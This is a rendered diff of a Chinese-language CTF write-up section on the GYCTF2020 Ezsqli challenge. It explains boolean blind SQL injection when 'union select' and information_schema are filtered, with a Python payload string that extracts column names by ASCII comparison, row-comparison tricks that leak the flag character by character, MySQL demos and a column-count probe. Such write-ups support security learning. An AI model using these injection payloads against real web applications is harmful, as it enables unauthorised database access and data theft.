

Before and after one commit to 181726943/writeup, a Markdown page: ctf-wp.md, the part around one of its changes. Shown at 92% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/ctf-wp.md
+++ b/ctf-wp.md
@@ -262,3 +327,60 @@
+3. 加括号诸位比较大小(ascii偏移)
+
+    **GYCTF2020 Ezsqli**
+
+    当union select被过滤时，以上两种方法就都不能用了，我们要用加括号逐位比较大小的方法，将flag诸位爆出来，就像这样：
+
+    ```mysql
+    1&&((select 1,"f")>(select * from flag_is_here))
+    ```
+
+    用布尔来进行判断。一般出现在布尔盲注的地方。
+
+    一个post的输入框，存在sql盲注注入（正确则回显Nu1L）。但是过滤了很多东西，or、and、union、information_schema、sys.schema_auto_increment_columns、join等都不能用了。我们要是用sys.schema_table_statistics_with_buffer来绕过information_schema，先把表给爆出来([sqli_blind.py](./sqli_blind.py))
+
+    payload:
+    ```python
+    payload = f" or (ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_schema=database())),{i},1))>{mid})#"
+    ```
+
+    *注意：这道题脚本爆破时要加一个延迟，不然爆不出来*
+
+    下面是爆flag，但是union select被禁，上面两种方法不能用，这时就可以用ascii位偏移
+
+    ascii位偏移举例,
+
+    ```cmd
+    mysql> select ((select 1,'flag')>(select 1,'flag{asdf-qwer-zxcv-uiop-hjkl}'));
+    +-----------------------------------------------------------------+
+    | ((select 1,'flag')>(select 1,'flag{asdf-qwer-zxcv-uiop-hjkl}')) |
+    +-----------------------------------------------------------------+
+    |                                                               0 |
+    +-----------------------------------------------------------------+
+    1 row in set (0.00 sec)
+
+    mysql> select ((select 1,'flah')>(select 1,'flag{asdf-qwer-zxcv-uiop-hjkl}'));
+    +-----------------------------------------------------------------+
+    | ((select 1,'flah')>(select 1,'flag{asdf-qwer-zxcv-uiop-hjkl}')) |
+    +-----------------------------------------------------------------+
+    |                                                               1 |
+    +-----------------------------------------------------------------+
+    1 row in set (0.00 sec)
+
+    mysql> select ((select 1,'flag')>(select 1,'flag'));
+    +---------------------------------------+
+    | ((select 1,'flag')>(select 1,'flag')) |
+    +---------------------------------------+
+    |                                     0 |
+    +---------------------------------------+
+    1 row in set (0.00 sec)
+    ```
+
+    *关于mysql中ascii位偏移大小关系：`数字>字母>字符型数字`*
+
+    判断列数: `0^((1,1)>(select * from f1ag_1s_h3r3_hhhhh))`,如果列数大于2的话是不会返回预期结果的。
+
+    当我们匹配flag的时候，一定会先经过匹配到字符相等的情况，这一这个时候返回的是0，对应题目中的V&N，很明显此时的chr(char)并不是我们想要的，我们在输出1(Nu1L)的时候，匹配的是f的下一个字符g，而我们想要的是f，此时`chr(char-1)='f'`，所以这里要用`chr(char-1)`
+
 ## PHP反序列化
 
 [CTFPHP反序列化总结](https://blog.csdn.net/solitudi/article/details/113588692?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522166234073116781683934559%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=166234073116781683934559&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-113588692-null-null.article_score_rank_blog&utm_term=%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96&spm=1018.2226.3001.4450)
````
Also changed, not shown: other parts of ctf-wp.md (+65 -0 lines).
